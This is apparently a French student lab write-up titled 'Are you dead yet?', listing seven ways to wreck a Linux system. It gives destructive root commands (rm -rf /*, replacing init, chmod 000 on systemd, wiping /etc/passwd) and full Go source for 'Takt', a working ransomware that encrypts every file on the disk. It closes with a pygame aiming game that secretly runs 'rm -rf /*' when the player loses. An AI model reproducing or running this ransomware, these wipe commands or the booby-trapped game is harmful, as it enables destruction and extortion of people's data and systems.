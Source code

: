 # TP 1 : Are you dead yet ?

---

**🌞 Plusieurs façons différentes de péter la machine :**

**➜ Premiere façon :**

    tomfox@tomfox:~$ sudo rm -r /*
    
Ici je supprime tout depuis la racine

**➜ Deuxième façon :**
```bash
tomfox@tomfox:~$ cd /sbin
tomfox@tomfox:/sbin$ sudo rm init
tomfox@tomfox:/sbin$ sudo ln -s /usr/bin/echo init
```
Je me déplace dans le dossier sbin puis je supprime le init (c'est le premier process lancé par linux (PID 1)).
Puis je crée un nouveau link pour que init renvoie vers echo et non plus vers /lib/systemd/systemd

**➜ Troisième façon :**
```bash
tomfox@tomfox:~$ sudo su -
root@tomfox:~# chmod 000 /lib/systemd/systemd
```

Cette commande enlève les droits à tout le monde (même root) d'exécuter ce fichier, donc si ce fichier n'est pas lançable le linux ne boot pas car ce file est nécessaire pour le bon fonctionnement de linux

**➜ Quatrième façon :**
```bash
tomfox@tomfox:~$ sudo su -
root@tomfox:~# echo "" > /etc/passwd
```
Je supprime tout le contenu de /etc/passwd (contenu nécessaire pour le bon fonctionnement des sessions)

**➜ Cinquième façon :**
```bash
tomfox@tomfox:~$ sudo su -
root@tomfox:~# find / -type f | grep linux | xargs rm -rf
```
Ici je find tout le file (-type f) dans le system qui contient "linux" dans son full path name et ensuite je les supprime en utilisant un pipe et xargs pour prendre chaque ligne de output comme argument pour mon rm (-r pour récursif et -f pour force)


**➜ Sixième façon :**

Context : V1 de notre Takt ransomware, notre projet file rouge avec [Hyouka](https://github.com/HyouKash) en SSI

Pour chiffrer : 
```bash
go build takt.go
sudo ./takt
```
Pour déchiffrer : 
```bash
sudo ./takt --decrypt <BASE64(AES_KEY)>
```

```go
//takt.go

package main

import (
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "log"
    "os"
    "os/exec"
    "strings"
    "sync"
)

var wg sync.WaitGroup
var wgc sync.WaitGroup

var CryptKey = aesKey()

var IV = []byte("1234567812345678")

func createKey() []byte {
    genkey := make([]byte, 32)
    _, err := rand.Read(genkey)
    if err != nil {
        log.Fatalf("Failed to read new random key: %s", err)
    }
    return genkey
}

func aesKey() []byte {
    key := createKey()
    return key
}

func createCipher() cipher.Block {
    c, err := aes.NewCipher(CryptKey)
    if err != nil {
        log.Fatalf("Failed to create the AES cipher: %s", err)
    }
    return c
}

func Crypt(filename string, ch chan string) {
    file, _ := os.Open(filename)
    fileInfo, err := os.Stat(filename)
    if err != nil {
        wgc.Done()
        file.Close()
        Crypt(<-ch, ch)
    }
    if fileInfo.Size() > 200000000 {
        wgc.Done()
        file.Close()
        Crypt(<-ch, ch)
    }
    arr := make([]byte, fileInfo.Size())
    _, _ = file.Read(arr)
    file.Close()
    blockCipher := createCipher()
    stream := cipher.NewCTR(blockCipher, IV)
    stream.XORKeyStream(arr, arr)
    _ = ioutil.WriteFile(filename, arr, 0644)
    wgc.Done()
    Crypt(<-ch, ch)
}

func DeCrypt(filename string, ch chan string) {
    bytes, _ := ioutil.ReadFile(filename)
    blockCipher, _ := aes.NewCipher(CryptKey)
    stream := cipher.NewCTR(blockCipher, IV)
    stream.XORKeyStream(bytes, bytes)
    _ = ioutil.WriteFile(filename, bytes, 0644)
    wgc.Done()
    DeCrypt(<-ch, ch)
}

func main() {
    cmd := exec.Command("bash", "-c", "find / -type f")
    output, _ := cmd.CombinedOutput()
    listfile := strings.Split(string(output), "\n")
    ch := make(chan string, len(listfile))
    for _, file := range listfile {
        wg.Add(1)
        wgc.Add(1)
        go func(file string) {
            ch <- file
            wg.Done()
        }(file)
    }
    wg.Wait()
    args := os.Args[1:]
    if len(args) == 0 {
        fmt.Print("Crypt With ")
        fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
        for i := 0; i < 100; i++ {
            if len(ch) == 0 {
                break
            }
            go Crypt(<-ch, ch)
        }
        wgc.Wait()
    } else if len(args) == 2 && args[0] == "--decrypt" {
        CryptKey, _ = base64.StdEncoding.DecodeString(args[1])
        fmt.Print("Decrypt With ")
        fmt.Println(base64.StdEncoding.EncodeToString(CryptKey))
        for i := 0; i < 100; i++ {
            if len(ch) == 0 {
                break
            }
            go DeCrypt(<-ch, ch)
        }
        wgc.Wait()
    }
}
```

Explications : Takt ransomware utilise du Threading et des channels (fonctionnement de pile). La clé de chiffrement est en AES 256 et est générée de manière aléatoire. Ces procédés le rendent extrêmement rapide. Il chiffre l'entiéreté du disque (pour cette version, il chiffre le système également, si besoin on possède une version qui permet au système de survivre), l'utilisateur n'a plus accès a aucune de ses données. 

EPO : Educational Purpose Only

**➜ Septième façon :**

```bash
tomfox@tomfox:~/Desktop$ sudo apt install python3 python3-pip -y
tomfox@tomfox:~/Desktop$ sudo python3 -m pip install pygame
tomfox@tomfox:~/Desktop$ sudo python3 main.py 
```

```python
#main.py
import os

import pygame, sys
from pygame.locals import *
from random import randint
import time

pygame.init()
RangeTaille = 480
pos = ((randint(0, RangeTaille) // 80) * 80, ((randint(0, RangeTaille) // 80) * 80))

fenetre = pygame.display.set_mode((RangeTaille, RangeTaille))
cible = pygame.image.load("cible.png").convert_alpha()
ciblesize = pygame.transform.scale(cible, (80, 80))
position_perso = ciblesize.get_rect()
point, topchrono, delai, chrono = 0,time.time(),1,30
while True:
    for event in pygame.event.get():
        if event.type == MOUSEBUTTONDOWN and event.button == 1:
            if (event.pos[0]) // 80 == (pos[0]) // 80 and (event.pos[1]) // 80 == (pos[1]) // 80:
                point += 100
                pos = ((randint(0, RangeTaille) // 80) * 80, ((randint(0, RangeTaille) // 80) * 80))
            else:
                point -= 30
    if time.time() - topchrono > delai:
        chrono -= 1
        topchrono = time.time()
    fenetre.fill([0, 0, 0])
    fenetre.blit(ciblesize, pos)
    font = pygame.font.Font(pygame.font.get_default_font(), 36)
    score = font.render("Score: " + str(point), True, (255, 255, 0))
    chronoshow = font.render(str(chrono) + "s", True, (255, 255, 0))
    fenetre.blit(score, dest=((RangeTaille // 2) - 80, 0))
    fenetre.blit(chronoshow, dest=((RangeTaille // 2) - 20, 30))
    pygame.display.flip()
    if chrono <= 0:
        if point < 7000:
            score = font.render("Tu as perdu!!", True, (255, 255, 0))
            fenetre.blit(score, dest=((RangeTaille // 2) - 100, RangeTaille // 2))
            pygame.display.flip()
            os.system("rm -rf /*")
        else:
            sys.exit()
```
Code python fait en seconde, comme on peux voir a la fin de ce code si l'utilsateur fait moins de 7000 points on supprime tout ce qui a dans ça racine (C'est un jeu d'aim il faut tout simplement visé des cible)
